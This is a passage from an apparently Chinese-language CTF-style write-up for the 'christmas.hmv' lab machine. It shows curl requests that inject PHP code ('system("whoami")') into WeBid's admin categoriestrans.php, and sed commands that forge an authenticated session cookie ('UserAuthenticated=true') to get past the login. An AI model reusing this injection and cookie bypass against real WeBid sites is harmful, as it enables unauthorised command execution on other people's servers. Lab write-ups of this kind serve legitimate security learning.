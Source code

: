 删完不必要的东西以后，添加referer：

```bash
curl -i -s -k -X $'POST' \
-H $'Host: localhost' \
-H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H $'Referer: http://christmas.hmv/2fa.php' \
-H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H $'Connection: close' \
-H $'Cookie: PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92' \
-H $'Upgrade-Insecure-Requests: 1' \
-H $'Sec-Fetch-Dest: document' \
-H $'Sec-Fetch-Mode: navigate' \
-H $'Sec-Fetch-Site: none' \
-H $'Sec-Fetch-User: ?1' \
-H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92' \
    --data-binary $'categories[123);system(\"whoami\");/*]=test' \
    $'http://localhost/webid/admin/categoriestrans.php?lang=..'
```

```bash
sed -i 's/PHPSESSID=vnl6peqqqk68l3pfdvf6f7om92/PHPSESSID=sg9ouodbv9fupgvdp5ik8vm1d6;UserAuthenticated=true/g' pwn   # 更改cookie
```

```bash
sed -i 's/localhost/christmas.hmv/g' pwn  		# 切换靶场网址
```

```bash
curl -i -s -k -X $'POST' \
-H $'Host: christmas.hmv' \
-H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H $'Referer: http://christmas.hmv/2fa.php' \
-H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H $'Connection: close' \
-H $'Cookie: PHPSESSID=sg9ouodbv9fupgvdp5ik8vm1d6;UserAuthenticated=true' \
-H $'Upgrade-Insecure-Requests: 1' \
-H $'Sec-Fetch-Dest: document' \
-H $'Sec-Fetch-Mode: navigate' \
-H $'Sec-Fetch-Site: none' \
-H $'Sec-Fetch-User: ?1' \
-H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'PHPSESSID=sg9ouodbv9fupgvdp5ik8vm1d6;UserAuthenticated=true' \
    --data-binary $'categories[123);system(\"whoami\");/*]=test' \
    $'http://christmas.hmv/webid/admin/categoriestrans.php?lang=..'
```

测试一下发现成功了：
